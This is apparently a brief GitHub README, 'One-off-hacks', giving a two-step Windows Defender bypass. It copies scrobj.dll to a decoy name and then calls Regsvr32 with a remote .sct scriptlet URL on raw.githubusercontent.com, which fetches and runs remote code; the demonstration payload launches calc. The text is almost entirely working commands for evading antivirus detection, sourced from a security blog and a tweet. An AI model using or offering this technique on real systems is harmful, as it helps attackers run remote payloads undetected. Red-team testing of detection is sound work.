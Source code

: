 # One-off-hacks

### Bypass AV/EDR test found [here](https://www.trustedsec.com/blog/discovering-the-anti-virus-signature-and-bypassing-it/) and here at [twitter](https://twitter.com/mrd0x/status/1461041276514623491?s=20)
Bypass Defender AV by:
1. copying and renaming scrobj.dll  
`copy c:\windows\system32\scrobj.dll NothingToSeeHere.dll`
2. Testing that by launching calc  
`Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct
NothingToSeeHere.dll`
#test
